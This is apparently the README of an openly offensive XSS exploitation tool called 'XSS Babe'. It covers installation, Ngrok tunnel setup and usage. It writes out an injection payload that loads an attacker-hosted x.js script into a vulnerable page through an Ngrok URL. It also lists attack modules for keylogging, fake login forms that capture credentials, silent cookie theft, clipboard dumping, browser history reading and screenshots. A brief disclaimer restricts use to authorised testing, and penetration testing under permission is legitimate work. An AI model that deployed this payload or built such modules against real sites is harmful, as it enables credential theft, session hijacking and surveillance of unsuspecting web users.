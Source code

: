 # XSS BABE

XSS Babe is a tool for exploiting XSS vulnerabilities in real time. 
It automates delivery, tracking, and payload interaction through a live command-line interface. 

## ⚠️ Legal Disclaimer

This tool is for educational and ethical penetration testing only. 
Do not use it against targets without permission. 
You are solely responsible for how you use this software.

---

## Installation

### 1. Clone the Repo

```bash
git clone https://github.com/ekomsSavior/XSS-BABE.git
cd XSS-BABE
```

### 2. Install Dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip unzip -y
pip3 install -r requirements.txt
```

### 3. Install Ngrok

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-stable-linux-amd64.zip
unzip ngrok-stable-linux-amd64.zip
sudo mv ngrok /usr/local/bin/
```

---

## Ngrok Setup

1. Sign up at https://ngrok.com/signup  
2. Copy your auth token from: https://dashboard.ngrok.com/get-started/setup  
3. Add your token:

```bash
ngrok config add-authtoken YOUR_TOKEN_HERE
```

---

## Usage

```bash
python3 xss_babe_cli.py
```

### What It Does:
- Prompts for a target XSS URL (like: `https://vuln.site/?q=`)
- Auto-launches the Flask server and Ngrok
- Injects `x.js` loader into your payload
- Displays a live menu of attack modules
- Logs all browser events and saves session results in `sessions/`

---

## Example Payload

Use the Ngrok URL + this payload in the vulnerable input:

```html
<script src="https://YOUR_NGROK_URL/static/x.js"></script>
```

---

## Modules List

| Module            | Description                                      |
|-------------------|--------------------------------------------------|
| keylogger         | Records keystrokes in real time                  |
| fake_login        | Displays fake login form for credential capture  |
| clipboard         | Dumps contents of the victim’s clipboard         |
| auto_cookie_steal | Extracts document cookies silently               |
| browser_history   | Reads browser history if accessible              |
| download_bait     | Triggers fake file downloads (ZIP/PDF/etc)       |
| fingerprint       | Collects user-agent, screen size, timezone       |
| screenshot        | Captures visual screenshot using HTML2Canvas     |
| recon             | Loads iframe ports and resources for open recon  |
| cross_tab_spy     | Detects and tracks multiple open tabs            |

---

## File Structure

```
xss_babe/
├── xss_babe_cli.py             # Main interactive CLI
├── server.py                   # Flask server for payload delivery
├── requirements.txt            # Python dependencies
├── static/
│   ├── x.js                    # XSS loader script
│   └── modules/
│       ├── keylogger.js
│       ├── fake_login.js
│       ├── clipboard.js
│       ├── auto_cookie_steal.js
│       ├── browser_history.js
│       ├── download_bait.js
│       ├── fingerprint.js
│       ├── screenshot.js
│       ├── recon.js
│       └── cross_tab_spy.js
├── utils/
│   └── save_to_txt.py          # Helper to save session info
└── sessions/
    └── [timestamp].txt         # Auto-generated session logs
```

---

## Logs and Reporting

All session output (payloads used, timestamps, logs) are saved to:

```
sessions/YYYY-MM-DD-HHMMSS.txt
```

---

## Stay Ethical

Use XSS Babe only in lab environments or on targets you own or have permission to test. 

---

##  Developed by [ekomsSavior](https://github.com/ekomsSavior)
